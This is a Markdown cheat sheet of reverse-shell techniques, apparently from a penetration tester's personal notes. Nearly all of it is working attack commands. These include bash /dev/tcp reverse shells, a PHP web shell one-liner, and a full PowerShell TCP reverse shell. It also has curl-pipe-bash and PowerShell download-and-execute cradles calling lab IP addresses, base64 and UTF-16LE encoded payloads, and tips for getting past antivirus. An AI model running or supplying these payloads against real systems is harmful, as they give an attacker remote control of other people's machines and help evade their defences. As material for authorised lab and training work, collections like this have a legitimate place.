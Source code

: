 # Reverse Shells - Examples

https://www.revshells.com/

# Test that we can rev shell

	Before trying to get a rev shell, we might want to try a ping <ip> into a tcp dump or a uname -a | nc <ip> <port>, to see if we actually get a callback

## Bash

	bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1

	if the shell being used is dash and not bash (check by doing ls -la /bin/sh)

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"
	To use the bash's built-in /dev/tcp device file the use must use /bin/bash as shell. Often it uses sh or dash, then you can use bash -c "<cmd>" to force the bash

## Web shells

### PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

One liner:

	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm

You can also forward config the shell:

	export TERM=xterm-256color
	stty rows 67 columns 318

## Powershell

Save a powershell from https://www.revshells.com/ to a file. Start the netcat listener and a http server in the dir of the revshell we just saved.
Download and execute the shell with this one liner:

	powershell.exe -c iex (iwr -UseBasicParsing http://10.10.14.119:8000/my_ps_shell.ps1)

### Another Powershell One Liner

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash

Convert shell to base64 when sending it through http:

	echo -n 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1' | base64 -w0
	YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0IDA+JjE=

	To get rid of the special characters like the plus sign just add double splaces:

	echo -n 'bash  -i  >&  /dev/tcp/10.10.14.93/4444  0>&1'
	YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx

	Then when sending the payload do:
	echo -n YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC45My80NDQ0ICAwPiYx | base64 -d | bash

	Try something but with 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

If the process of our shell is being killed by the target host, we can try creating in a new process:

	'nohup bash -c " bash -i >& /dev/tcp/ip/port 0>&1" &'

## Windows Reverse shells

Download nishang powershell:

	git clone https://github.com/samratashok/nishang.git

Copy the desired rev shell to your webserver directory:

	cp nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 <webserver_path>/rev_shell.ps1

Delete the comments on the rev shell and change the ip and port to your localhost ip and netcat port. When starting the netcat use the rlwrap utility so that we have access to the up and down arrows for command history:

	rlwrap nc -nvlp 5555
	https://github.com/hanslub42/rlwrap.git

Now to download the rev_shell to the remote host we are gonna use a web cradle. The importance of this is that it something goes wrong and the antivirus blocks or connections, the web cradle helps determine what went wrong.

	IEX(New-Object Net.WebClient).downloadString('http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1')
	https://github.com/Andre92Marcos/myScripts/blob/main/web_cradle.ps1

If the web cradle does not reach our web server, we know that very likely the antivirus is blocking us from downloading the rev shell. Otherwise it problably is blocking the rev shell execution itself.

We change the relevant information in the web_cradle and next we are going to convert the web cradle to utf-16 little endian and then to base 64:

	cat web_cradle.ps1 | iconv -t utf-16le | base64 -w0

The reaseon we are converting to utf-16le is for Windows compability.

And finally we powershell the base64 string in the remote host:

	poweshell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADYAOgA4ADAAMAAwAC8AcgBlAHYAXwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=

If we get a hit on the webserver trying to download the shell, but don't get the shell on the nc we know that the web cradle is working but the antivirus is blocking the rev shell. If this happens try changing the cradle to:

	IEX(IWR -UseBasicParsing http://<web_server_ip>:<web_servber_port>/<rev_shell_name>.ps1)

And then change the var names in the rev shell script (already done in this shell):

	https://github.com/Andre92Marcos/myScripts/blob/main/rev_shell_anti_virus.ps1


## Resources

https://security-tips.vincd.com/reverse-shell/

https://github.com/samratashok/nishang